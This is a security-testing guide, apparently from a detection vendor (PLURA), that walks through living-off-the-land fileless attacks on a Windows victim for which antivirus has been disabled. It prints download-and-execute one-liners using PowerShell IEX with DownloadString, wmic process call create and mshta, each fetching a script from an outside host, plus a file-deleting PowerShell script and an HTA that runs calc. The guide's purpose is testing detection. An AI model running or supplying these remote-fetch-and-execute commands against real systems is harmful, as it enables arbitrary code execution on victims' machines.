

# Introduction to Fileless Attacks in LOL

## Test Environment Setup

1. **Attack Server**
   - [ ] A web server must be set up.

2. **MALSCRIPT**
   - [ ] Must be located in the web root directory of the attack server (`/var/www/html/`).
   - [ ] The infiltrated file can be delivered via a web request body and converted into a web shell.

3. **MALSCRIPT Attack Path**
   - [ ] You must specify the path of the file to be deleted on the victim server.

4. **Victim Server**
   - [ ] PLURA agent must be installed.
   - [ ] The file to be deleted (`C:\Program Files\important-file.txt`) must exist.
   - [ ] If the file does not exist at the specified path, it will be difficult to confirm the success of the attack.

5. **Operating Environment**
   - [ ] The victim server must be a Windows server.
   - [ ] Real-time protection in Windows and antivirus programs like V3 must be disabled.

6. **Command Execution**
   - [ ] Execute the command with administrator privileges using `cmd` or `PowerShell` on the victim server.

---

## What is a LOL Attack and a Fileless Attack?

### LOL (Living Off the Land) Attack
- [ ] A method of attack using legitimate binaries, DLLs, and other tools already installed on the system.

### Fileless Attack
- [ ] An attack method where the malicious file is not stored on the victim server's disk but executed directly in memory.

The following demonstrates how to perform a fileless attack using LOL techniques. After executing this attack, you can check detection details in PLURA.

---

## Attack Demonstration

First, the infiltrated file is delivered through the web request body and converted into a web shell. This technique can be used to perform additional malicious actions through the web server.

👉 [Learn more](webshell_attack_steps.md)

## PowerShell (T1059.001)
- **Fileless attack using PowerShell**
- **Script:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<Path of the file to be deleted on the victim server>'

# Example
Remove-Item 'C:\Program Files\important-file.txt'

### Command  
- Can be used with both `cmd` and `PowerShell`:
```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')"
```
**If the attack succeeds:** The file on the victim server will be deleted, and the detection logs can be checked in PLURA.

---

## Windows Management Instrumentation (T1047)
- **Execute remote commands using WMIC**
- **Script:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<Path of the file to be deleted on the victim server>'

# Example
Remove-Item 'C:\Program Files\important-file.txt'
```

### Command  
- Execute from `cmd`:
```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')\""
```

- **If the attack is successful:** The file on the victim server will be deleted, and the detection log can be verified in PLURA.

---

## Mshta (T1218.005)
- **Execute a malicious HTA file using Mshta**
- **Script:** `MALSCRIPT.hta`

```html
<html>
<head>
    <title>Malicious HTA</title>
    <hta:application id="oHTA"
        border="thin"
        borderstyle="normal"
        caption="yes"
        contextmenu="no"
        innerborder="no"
        maximizebutton="no"
        minimizebutton="no"
        navigable="yes"
        scroll="no"
        scrollflat="no"
        selection="yes"
        showintaskbar="yes"
        singleinstance="yes"
        sysmenu="yes"
        version="1.0"
        windowstate="normal">
    </hta:application>
    <script language="JScript">
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("calc.exe");
    </script>
</head>
<body>
    <h1>Malicious HTA</h1>
</body>
</html>
```

### Command
- Can be executed using both `cmd` and `PowerShell`:
```cmd
mshta http://ethanlabs.shop/MALSCRIPT.hta
```

- **If the attack is successful:** A "Malicious HTA" window and the calculator will run on the victim server, and the detection log can be verified in PLURA.

---

# Precautions
- **PowerShell, WMIC, and Mshta** are powerful script execution tools in Windows and are frequently used to perform fileless attacks.
- Attackers attempt to evade detection by executing directly in memory without saving files to disk.
- Use the above process to verify PLURA's detection capabilities and security logs.

---

## Attack Overview (Diagram)



---

## PLURA-XDR Response Guide

👉 [Learn more](plura_waf_xdr_detection.md)

